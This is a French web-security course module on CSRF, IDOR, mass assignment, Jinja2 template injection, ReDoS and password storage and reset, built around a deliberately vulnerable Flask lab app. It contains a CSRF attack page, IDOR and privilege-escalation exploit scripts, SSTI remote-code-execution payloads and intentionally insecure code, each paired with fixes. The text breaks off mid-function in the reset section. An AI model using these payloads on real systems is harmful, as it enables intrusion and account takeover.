




# Security By Design: SÉANCE 2 : Autorisations, authentification et Security by Design (3h30)

---

## Module 2.1 - Cross-Site Request Forgery / CSRF (30 min)

### 2.1.1 Principe d'attaque

CSRF exploite la confiance d'un site envers un utilisateur authentifié. Le navigateur envoie automatiquement les cookies de session, même pour des requêtes initiées depuis un autre site.

**Scénario type** : le navigateur envoie automatiquement les cookies de session pour le domaine de destination, même si la requête est initiée depuis un site tiers. L'attaquant n'a pas besoin de connaître le cookie, c'est le navigateur qui le fournit.



### 2.1.2 Exploitation

**Création d'une page malveillante** :

```python
# attacker_server.py - serveur d'attaque pour PoC
from flask import Flask, request

attacker_app = Flask(__name__)

@attacker_app.route('/')
def malicious_page():
    return """
    <!DOCTYPE html>
    <html>
    <head><title>Vous avez gagné !</title></head>
    <body>
        <h1>🎁 Félicitations ! Cliquez pour réclamer</h1>

        <!-- Attaque CSRF cachée : modification du profil de la victime -->
        <form id="csrf-attack"
              action="http://localhost:5000/profile/update"
              method="POST"
              style="display:none">
            <input name="username" value="pwned-by-csrf">
            <input name="bio" value="This account was hijacked via CSRF.">
        </form>

        <script>
            // Soumission automatique au chargement
            document.getElementById('csrf-attack').submit();
        </script>
    </body>
    </html>
    """

@attacker_app.route('/log', methods=['POST', 'GET'])
def log_stolen_data():
    print(f"📥 Données reçues : {request.values.to_dict()}")
    return '', 204

if __name__ == '__main__':
    attacker_app.run(port=8000)
```

**Script Python d'exploitation automatisée** :

```python
# scripts/csrf_demo.py
import requests

# Simulation : Alice est connectée
session = requests.Session()
session.post('http://localhost:5000/login', data={
    'email': 'alice@vulnpyapp.local',
    'password': 'Alice123!'
})

# L'attaquant fait une requête depuis "l'extérieur" avec la session d'Alice
# (simulant une requête déclenchée par une page malveillante)
response = session.post(
    'http://localhost:5000/profile/update',
    data={
        'username': 'pwned-by-csrf',
        'bio': 'This account was hijacked via CSRF.'
    },
    headers={
        # Pas de header Origin/Referer ou un mauvais
        'Origin': 'http://attacker.com'
    }
)

if response.status_code == 200:
    print("🚨 ATTAQUE CSRF RÉUSSIE - L'application est vulnérable")
else:
    print(f"✅ Protection active (status: {response.status_code})")
```

### 2.1.3 Protections en Python/Flask

**Méthode 1 : Tokens CSRF avec Flask-WTF**

```python
# ✅ SÉCURISÉ - Flask-WTF
from flask import Flask
from flask_wtf.csrf import CSRFProtect
from flask_wtf import FlaskForm
from wtforms import StringField, PasswordField
from wtforms.validators import DataRequired, Length

app = Flask(__name__)
app.config['SECRET_KEY'] = 'your-very-long-random-secret'
csrf = CSRFProtect(app)

class PasswordChangeForm(FlaskForm):
    new_password = PasswordField('Nouveau mot de passe',
                                  validators=[DataRequired(), Length(min=12)])
    confirm_password = PasswordField('Confirmation',
                                      validators=[DataRequired()])

@app.route('/account/change-password', methods=['GET', 'POST'])
def change_password():
    form = PasswordChangeForm()
    if form.validate_on_submit():  # Vérifie le CSRF token
        # Logique de changement
        return redirect('/account')
    return render_template('change_password.html', form=form)
```

```html
<!-- templates/change_password.html -->
<form method="POST">
    {{ form.csrf_token }}  <!-- Token CSRF automatique -->
    {{ form.new_password.label }} {{ form.new_password }}
    {{ form.confirm_password.label }} {{ form.confirm_password }}
    <button type="submit">Changer</button>
</form>
```

**Méthode 2 : CSRF pour API JSON (header)**

```python
# ✅ SÉCURISÉ - CSRF pour API
from functools import wraps
import secrets
from flask import session, request, jsonify

def generate_csrf_token():
    if 'csrf_token' not in session:
        session['csrf_token'] = secrets.token_urlsafe(32)
    return session['csrf_token']

def csrf_protect(f):
    @wraps(f)
    def decorated(*args, **kwargs):
        if request.method in ['POST', 'PUT', 'DELETE', 'PATCH']:
            token = request.headers.get('X-CSRF-Token')
            if not token or token != session.get('csrf_token'):
                return jsonify({'error': 'CSRF token invalide'}), 403
        return f(*args, **kwargs)
    return decorated

@app.route('/api/csrf-token')
def get_csrf_token():
    return jsonify({'csrf_token': generate_csrf_token()})

@app.route('/api/account', methods=['PUT'])
@csrf_protect
def update_account():
    # Logique sécurisée
    pass
```

**Méthode 3 : SameSite Cookies (défense en profondeur)**

```python
# ✅ Configuration cookies avec SameSite
app.config.update(
    SESSION_COOKIE_SECURE=True,        # HTTPS uniquement
    SESSION_COOKIE_HTTPONLY=True,      # Pas accessible via JS
    SESSION_COOKIE_SAMESITE='Strict',  # Bloque les requêtes cross-site
)
```

**Détail des modes SameSite** :

| Mode | Comportement | Protection CSRF |
|------|-------------|-----------------|
| `Strict` | Cookie jamais envoyé en cross-site | Maximale, mais peut casser les liens entrants |
| `Lax` (défaut) | Cookie envoyé pour les navigations GET top-level | Bon équilibre par défaut |
| `None` | Cookie envoyé pour toutes les requêtes | Aucune (nécessite `Secure` + HTTPS) |

**Méthode 4 : Vérification d'origine**

```python
# ✅ Vérification Origin/Referer
ALLOWED_ORIGINS = ['https://app.com', 'https://www.app.com']

@app.before_request
def check_csrf_origin():
    if request.method in ['POST', 'PUT', 'DELETE', 'PATCH']:
        origin = request.headers.get('Origin') or request.headers.get('Referer', '').rstrip('/')
        if not any(origin.startswith(o) for o in ALLOWED_ORIGINS):
            abort(403, description="Origin non autorisée")
```

---

## Module 2.2 - Insecure Direct Object Reference / IDOR (30 min)

### 2.2.0 Authentification vs Autorisation

**Distinction fondamentale** :
- **Authentification (AuthN)** : vérifier l'identité — *qui êtes-vous ?* (login, MFA, certificat…)
- **Autorisation (AuthZ)** : vérifier les droits — *que pouvez-vous faire ?* (rôles, attributs, listes de droits…)

Ces deux contrôles sont **indépendants et complémentaires** : un utilisateur peut être authentifié sans être autorisé à accéder à une ressource spécifique. La vérification d'autorisation doit toujours se faire **côté serveur**, jamais uniquement côté client.

**Modèles de contrôle d'accès** :
- **RBAC** (Role-Based Access Control) : droits assignés par rôles prédéfinis (admin, user, manager)
- **ABAC** (Attribute-Based Access Control) : décisions basées sur des attributs contextuels (service, pays, statut du compte, heure)
- **ACL** (Access Control List) : listes explicites de droits par ressource (ex. partage de fichiers, règles de pare-feu)

### 2.2.1 Principe

IDOR se produit quand l'application expose une référence directe à un objet (ID en URL, paramètre) sans vérifier que l'utilisateur a le droit d'y accéder.

### 2.2.2 Exemples vulnérables

```python
# 🚨 VULNÉRABLE - Pas de vérification de propriété
@app.route('/api/orders/<int:order_id>')
def get_order(order_id):
    order = Order.query.get(order_id)
    if not order:
        return jsonify({'error': 'Not found'}), 404
    return jsonify(order.to_dict())
# Un utilisateur peut accéder à n'importe quelle commande !

# 🚨 VULNÉRABLE - Modification sans vérification
@app.route('/api/users/<int:user_id>', methods=['PUT'])
@login_required
def update_user(user_id):
    user = User.query.get(user_id)
    user.email = request.json.get('email')
    db.session.commit()
    return jsonify(user.to_dict())
# Un utilisateur peut modifier le compte d'un autre !
```

**Comparaison accès vulnérable vs sécurisé** : dans le cas vulnérable, la fonction ne vérifie pas le propriétaire de l'objet. Dans le cas sécurisé, la requête filtre par utilisateur courant.

```mermaid
graph TD
    subgraph Vulnérable
        V1[GET /api/orders/5] --> V2[Order.query.get(5)]
        V2 --> V3[Retourne la commande<br/>sans vérifier le propriétaire]
    end
    subgraph Sécurisé
        S1[GET /api/orders/5] --> S2[Order.query.filter_by<br/>id=5, user_id=current_user.id]
        S2 --> S3{user_id correspond?}
        S3 -->|Oui| S4[Retourne la commande]
        S3 -->|Non| S5[403 Accès interdit]
    end
```

### 2.2.3 Exploitation

```python
# scripts/exploit_idor.py
import requests

# Connexion en tant qu'utilisateur normal (Bob)
session = requests.Session()
session.post('http://localhost:5000/login', data={
    'email': 'bob@vulnpyapp.local',
    'password': 'Bob123!'
})

print("🔍 Test IDOR sur /api/orders/<id>")
for order_id in range(1, 20):
    r = session.get(f'http://localhost:5000/api/orders/{order_id}')
    if r.status_code == 200:
        data = r.json()
        # Bob accède à des commandes qui ne sont pas les siennes
        if data.get('user_id') != 3:  # Bob = id 3
            print(f"🚨 IDOR : commande {order_id} appartient à user {data['user_id']}")
            print(f"   Données : {data}")

print("\n🔍 Test info-disclosure sur /api/users/<id>")
# L'endpoint GET expose is_admin et email d'autres utilisateurs (vraie vuln)
r = session.get('http://localhost:5000/api/users/1')  # id 1 = admin
if r.status_code == 200:
    data = r.json()
    print(f"🚨 Fuite : compte admin exposé → {data}")
    # → {'id': 1, 'email': 'admin@vulnpyapp.local', 'is_admin': True, ...}
```

### 2.2.4 Protection : vérification d'autorisation

**Méthode 1 : Vérification explicite de propriété**

```python
# ✅ SÉCURISÉ - Vérification de propriété
from flask_login import current_user, login_required

@app.route('/api/orders/<int:order_id>')
@login_required
def get_order(order_id):
    order = Order.query.get_or_404(order_id)

    # Vérifier que l'utilisateur est propriétaire ou admin
    if order.user_id != current_user.id and not current_user.is_admin:
        abort(403, description="Accès interdit")

    return jsonify(order.to_dict())
```

**Méthode 2 : Filtrage par utilisateur (recommandé)**

```python
# ✅ SÉCURISÉ - Filtrage à la source
@app.route('/api/orders/<int:order_id>')
@login_required
def get_order(order_id):
    # La requête elle-même filtre par utilisateur
    order = Order.query.filter_by(
        id=order_id,
        user_id=current_user.id
    ).first_or_404()
    return jsonify(order.to_dict())

# Encore mieux : ne pas exposer les IDs du tout
@app.route('/api/my/orders')
@login_required
def my_orders():
    orders = Order.query.filter_by(user_id=current_user.id).all()
    return jsonify([o.to_dict() for o in orders])
```

**Méthode 3 : Décorateur d'autorisation**

```python
# ✅ SÉCURISÉ - Décorateur réutilisable
from functools import wraps

def require_ownership(model, id_param='id', owner_field='user_id'):
    def decorator(f):
        @wraps(f)
        @login_required
        def decorated(*args, **kwargs):
            obj_id = kwargs.get(id_param)
            obj = model.query.get_or_404(obj_id)

            if getattr(obj, owner_field) != current_user.id and not current_user.is_admin:
                abort(403)

            kwargs['obj'] = obj
            return f(*args, **kwargs)
        return decorated
    return decorator

@app.route('/api/orders/<int:id>')
@require_ownership(Order)
def get_order(id, obj):
    return jsonify(obj.to_dict())
```

**Méthode 4 : Identifiants non prédictibles (UUID)**

```python
# ✅ SÉCURISÉ - UUID au lieu d'IDs séquentiels
import uuid
from sqlalchemy.dialects.postgresql import UUID

class Order(db.Model):
    id = db.Column(db.Integer, primary_key=True)  # Interne uniquement
    public_id = db.Column(db.String(36), unique=True,
                          default=lambda: str(uuid.uuid4()))
    user_id = db.Column(db.Integer, db.ForeignKey('user.id'))

# Exposer uniquement le public_id
@app.route('/api/orders/<string:public_id>')
@login_required
def get_order(public_id):
    order = Order.query.filter_by(
        public_id=public_id,
        user_id=current_user.id
    ).first_or_404()
    return jsonify(order.to_dict())
```

---

## Module 2.3 - Mass Assignment et autres vulnérabilités (30 min)

### 2.3.1 Mass Assignment

**Principe** : l'application accepte aveuglément tous les champs envoyés par l'utilisateur. Si le modèle User a un champ sensible comme `is_admin`, l'attaquant peut injecter sa valeur dans la requête POST pour s'élever en privilèges.

```mermaid
graph LR
    subgraph Attaque
        A1[Inscription] --> A2[Champs normaux : email, password, name]
        A2 --> A3[Champ injecté : is_admin=true]
        A3 --> A4[User(**data) crée un compte admin]
    end
    subgraph Protection
        B1[Inscription] --> B2[Schéma explicite<br/>extra = forbid]
        B2 --> B3[Champ inconnu rejeté<br/>400 Bad Request]
    end
```

```python
# 🚨 VULNÉRABLE - extrait de VulnPyApp app.py
@app.route('/register', methods=['GET', 'POST'])
def register():
    if request.method == 'POST':
        # 🚨 VULNÉRABLE : tous les champs du formulaire passent au modèle
        data = request.form.to_dict()
        user = User(**{k: v for k, v in data.items() if k != 'password'})
        user.set_password(data.get('password', ''))
        db.session.add(user)
        db.session.commit()
        login_user(user)
        return redirect(url_for('profile'))
```

**Exploitation** :

```python
# scripts/exploit_mass_assignment.py
import requests

# Création d'un compte avec is_admin=true injecté dans le formulaire
r = requests.post('http://localhost:5000/register', data={
    'email': 'evil@attacker.com',
    'username': 'evil',
    'password': 'Evil123!',
    'bio': 'Pwned',
    'is_admin': 'true',  # 🎯 Champ non prévu mais accepté par User(**data)
})

# Vérification : connexion et accès au panel admin
s = requests.Session()
s.post('http://localhost:5000/login', data={
    'email': 'evil@attacker.com',
    'password': 'Evil123!'
})
admin_page = s.get('http://localhost:5000/admin')

if admin_page.status_code == 200:
    print("🚨 Élévation de privilèges réussie via mass assignment !")
```

**Protections** :

```python
# ✅ SÉCURISÉ - Whitelist explicite
ALLOWED_FIELDS = {'email', 'name', 'phone', 'avatar'}

@app.route('/api/users/<int:user_id>', methods=['PUT'])
@login_required
def update_user(user_id):
    if user_id != current_user.id:
        abort(403)

    user = User.query.get_or_404(user_id)
    data = request.get_json()

    # Filtrer aux champs autorisés uniquement
    for key in ALLOWED_FIELDS & data.keys():
        setattr(user, key, data[key])

    db.session.commit()
    return jsonify(user.to_dict())

# ✅ MEILLEUR - Validation avec Pydantic
from pydantic import BaseModel, EmailStr, constr, ValidationError

class UserUpdateSchema(BaseModel):
    email: EmailStr | None = None
    name: constr(max_length=100) | None = None
    phone: constr(pattern=r'^\+?[0-9]{10,15}$') | None = None

    class Config:
        extra = 'forbid'  # Rejette les champs inconnus

@app.route('/api/users/<int:user_id>', methods=['PUT'])
@login_required
def update_user(user_id):
    if user_id != current_user.id:
        abort(403)

    try:
        data = UserUpdateSchema(**request.get_json())
    except ValidationError as e:
        return jsonify({'errors': e.errors()}), 400

    user = User.query.get_or_404(user_id)
    for field, value in data.dict(exclude_unset=True).items():
        setattr(user, field, value)

    db.session.commit()
    return jsonify(user.to_dict())
```

### 2.3.2 Server-Side Template Injection (SSTI)

**Principe** : injection dans un template côté serveur, peut mener à du RCE.

```python
# 🚨 VULNÉRABLE - Jinja2 SSTI
from flask import render_template_string

@app.route('/hello')
def hello():
    name = request.args.get('name', 'World')
    template = f"<h1>Hello {name}</h1>"  # Concaténation dans template !
    return render_template_string(template)
```

**Exploitation** :

```python
# Payloads SSTI Jinja2
payloads = [
    # Détection
    "{{7*7}}",                    # Affiche 49 si vulnérable
    "{{config}}",                 # Fuite de configuration Flask

    # RCE complet
    "{{ ''.__class__.__mro__[1].__subclasses__() }}",
    "{{ cycler.__init__.__globals__.os.popen('id').read() }}",
    "{{ request.application.__globals__.__builtins__.__import__('os').popen('whoami').read() }}",
]
```

**Protection** :

```python
# ✅ SÉCURISÉ - Variables passées au template
@app.route('/hello')
def hello():
    name = request.args.get('name', 'World')
    # Le template est statique, name est une variable échappée
    return render_template_string("<h1>Hello {{ name }}</h1>", name=name)

# ✅ ENCORE MIEUX - Templates dans des fichiers
@app.route('/hello')
def hello():
    name = request.args.get('name', 'World')
    return render_template('hello.html', name=name)
```

### 2.3.3 ReDoS (Regular Expression Denial of Service)

**Principe** : certaines regex ont une complexité exponentielle sur des inputs spécifiques.

```python
# 🚨 VULNÉRABLE - Regex avec backtracking catastrophique
import re

EMAIL_REGEX = re.compile(r'^([a-zA-Z0-9]+)+@example\.com$')

# Cette validation peut prendre plusieurs minutes !
def is_valid_email(email):
    return bool(EMAIL_REGEX.match(email))

# Attaque : input crafté
malicious_input = "a" * 30 + "!"  # Cause un backtracking exponentiel
```

**Protections** :

```python
# ✅ SÉCURISÉ - Bibliothèque re2 (linear time)
import re2 as re  # Drop-in replacement sans backtracking

# ✅ SÉCURISÉ - Timeout sur regex
import signal

class RegexTimeout(Exception):
    pass

def with_timeout(seconds):
    def handler(signum, frame):
        raise RegexTimeout()
    signal.signal(signal.SIGALRM, handler)
    signal.alarm(seconds)

def safe_regex_match(pattern, text, timeout=1):
    try:
        with_timeout(timeout)
        result = re.match(pattern, text)
        signal.alarm(0)
        return result
    except RegexTimeout:
        return None

# ✅ SÉCURISÉ - Limitation de taille d'input
def is_valid_email(email):
    if len(email) > 254:  # RFC 5321
        return False
    return bool(EMAIL_REGEX.match(email))

# ✅ MIEUX - Validation simple sans regex complexe
from email_validator import validate_email, EmailNotValidError

def is_valid_email(email):
    try:
        validate_email(email)
        return True
    except EmailNotValidError:
        return False
```

---

## Module 2.4 - Authentification sécurisée (45 min)

### 2.4.1 Stockage des mots de passe

**Hiérarchie de mauvaises à bonnes pratiques** :

```python
import hashlib

# 🔥 CATASTROPHE - Stockage en clair
db.save({'password': password})

# 🚨 MAUVAIS - Hash rapide sans sel
hashed = hashlib.md5(password.encode()).hexdigest()  # MD5 est cassé
hashed = hashlib.sha256(password.encode()).hexdigest()  # Trop rapide → bruteforce GPU

# ⚠️ INSUFFISANT - Hash avec sel mais non itéré
salt = os.urandom(16)
hashed = hashlib.sha256(salt + password.encode()).hexdigest()

# ✅ BON - bcrypt
import bcrypt
hashed = bcrypt.hashpw(password.encode(), bcrypt.gensalt(rounds=12))

# ✅ EXCELLENT - Argon2 (recommandé OWASP)
from argon2 import PasswordHasher
ph = PasswordHasher(time_cost=3, memory_cost=65536, parallelism=4)
hashed = ph.hash(password)
```

**Évolution des techniques** : chaque étape ajoute une couche de protection. Le sel empêche les rainbow tables, l'itération ralentit le bruteforce, Argon2 résiste aux attaques GPU/ASIC.



### 2.4.2 Implémentation complète

```python
# auth.py - Module d'authentification sécurisé
from argon2 import PasswordHasher
from argon2.exceptions import VerifyMismatchError
import secrets
import re
from datetime import datetime, timedelta

ph = PasswordHasher(
    time_cost=3,        # Itérations
    memory_cost=65536,  # 64 MB
    parallelism=4
)

class PasswordPolicy:
    """Politique de mots de passe forte (OWASP)"""
    MIN_LENGTH = 12
    MAX_LENGTH = 128
    MIN_UPPERCASE = 1
    MIN_LOWERCASE = 1
    MIN_DIGITS = 1
    MIN_SPECIAL = 1

    # Top 10000 mots de passe les plus utilisés (à charger)
    COMMON_PASSWORDS = set()

    @classmethod
    def validate(cls, password: str) -> tuple[bool, list[str]]:
        errors = []

        if len(password) < cls.MIN_LENGTH:
            errors.append(f"Au moins {cls.MIN_LENGTH} caractères requis")
        if len(password) > cls.MAX_LENGTH:
            errors.append(f"Maximum {cls.MAX_LENGTH} caractères")
        if sum(c.isupper() for c in password) < cls.MIN_UPPERCASE:
            errors.append("Au moins une majuscule requise")
        if sum(c.islower() for c in password) < cls.MIN_LOWERCASE:
            errors.append("Au moins une minuscule requise")
        if sum(c.isdigit() for c in password) < cls.MIN_DIGITS:
            errors.append("Au moins un chiffre requis")
        if not re.search(r'[!@#$%^&*(),.?":{}|<>]', password):
            errors.append("Au moins un caractère spécial requis")
        if password.lower() in cls.COMMON_PASSWORDS:
            errors.append("Ce mot de passe est trop courant")

        return len(errors) == 0, errors


class AuthService:
    @staticmethod
    def hash_password(password: str) -> str:
        """Hash un mot de passe avec Argon2"""
        return ph.hash(password)

    @staticmethod
    def verify_password(password: str, hashed: str) -> bool:
        """Vérifie un mot de passe en temps constant"""
        try:
            ph.verify(hashed, password)
            return True
        except VerifyMismatchError:
            return False

    @staticmethod
    def needs_rehash(hashed: str) -> bool:
        """Détermine si le hash doit être recalculé (paramètres obsolètes)"""
        return ph.check_needs_rehash(hashed)


def register(email: str, password: str):
    # Validation politique
    valid, errors = PasswordPolicy.validate(password)
    if not valid:
        raise ValueError(f"Mot de passe invalide : {', '.join(errors)}")

    # Vérification HaveIBeenPwned (optionnel)
    if is_password_pwned(password):
        raise ValueError("Ce mot de passe a été compromis dans une fuite connue")

    # Hash et stockage
    user = User(
        email=email.lower().strip(),
        password_hash=AuthService.hash_password(password),
        created_at=datetime.utcnow()
    )
    db.session.add(user)
    db.session.commit()
    return user


def login(email: str, password: str):
    user = User.query.filter_by(email=email.lower().strip()).first()

    if not user:
        # IMPORTANT : effectuer un hash factice pour éviter l'énumération via timing
        AuthService.hash_password("dummy_password_to_match_timing")
        raise AuthenticationError("Identifiants invalides")

    if user.locked_until and user.locked_until > datetime.utcnow():
        raise AuthenticationError("Compte verrouillé temporairement")

    if not AuthService.verify_password(password, user.password_hash):
        user.failed_attempts += 1
        if user.failed_attempts >= 5:
            user.locked_until = datetime.utcnow() + timedelta(minutes=15)
        db.session.commit()
        raise AuthenticationError("Identifiants invalides")

    # Reset compteur + rehash si nécessaire
    user.failed_attempts = 0
    user.last_login = datetime.utcnow()
    if AuthService.needs_rehash(user.password_hash):
        user.password_hash = AuthService.hash_password(password)
    db.session.commit()

    return user


def is_password_pwned(password: str) -> bool:
    """Vérification via API HaveIBeenPwned (k-anonymity)"""
    import requests
    sha1 = hashlib.sha1(password.encode()).hexdigest().upper()
    prefix, suffix = sha1[:5], sha1[5:]

    response = requests.get(f'https://api.pwnedpasswords.com/range/{prefix}',
                            timeout=2)
    if response.status_code == 200:
        return suffix in response.text
    return False
```

**Recommandations NIST SP 800-63B sur la politique de mots de passe** :
- Privilégier les **passphrases** longues et mémorisables plutôt que des règles de complexité arbitraires (combinaison imposée majuscule + chiffre + symbole).
- **Ne pas imposer de rotation périodique forcée** : les changements fréquents favorisent les mots de passe faibles et prévisibles. Ne forcer le renouvellement qu'en cas de suspicion de compromission.
- Bloquer les mots de passe présents dans des listes de fuites connues (HaveIBeenPwned, rockyou.txt).

### 2.4.3 Réinitialisation de mot de passe sécurisée

```python
# password_reset.py
import secrets
from datetime import datetime, timedelta

class PasswordResetToken(db.Model):
    id = db.Column(db.Integer, primary_key=True)
    user_id = db.Column(db.Integer, db.ForeignKey('user.id'))
    token_hash = db.Column(db.String(64), unique=True)
    expires_at = db.Column(db.DateTime)
    used_at = db.Column(db.DateTime, nullable=True)

@app.route('/forgot-password', methods=['POST'])
@rate_limit('5 per hour')
def forgot_password():
    email = request.form.get('email', '').lower().strip()
    user = User.query.filter_by(email=email).first()

    # Toujours répondre OK pour ne pas révéler l'existence d'un compte
    response_message = "Si un compte existe, un email a été envoyé"

    if user:
        # Générer token cryptographiquement sûr
        token = secrets.token_urlsafe(32)
        token_hash = hashlib.sha256(token.encode()).hexdigest()

        # Stocker le HASH du token (pas le token en clair)
        reset = PasswordResetToken(
            user_id=user.id,
            token_hash=token_hash,
            expires_at=datetime.utcnow() + timedelta(hours=1)
        )
        db.session.add(reset)
        db.session.commit()

        # Envoyer email (le token n'est jamais stocké en clair en BDD)
        send_reset_email(user.email, token)

    return jsonify({'message': response_message})


@app.route('/reset-password', methods=['POST'])
def reset_password():
    token = request.form.get('token')
    new_password = request.form.get('new_password')

    token_hash = hashlib.sha256(token.encode()).hexdigest()
    reset = PasswordResetToken.query.filter_by(token_hash=token_hash).first()

    if not reset or reset.expires_at < datetime.utcnow() or reset.used_at:
        abort(400, description="Token invalide ou expiré")

    # Validation politique
    valid, errors = PasswordPolicy.validate(new_password)
    if not valid:
        return jsonify({'errors': errors}), 400

    # Réinitialiser
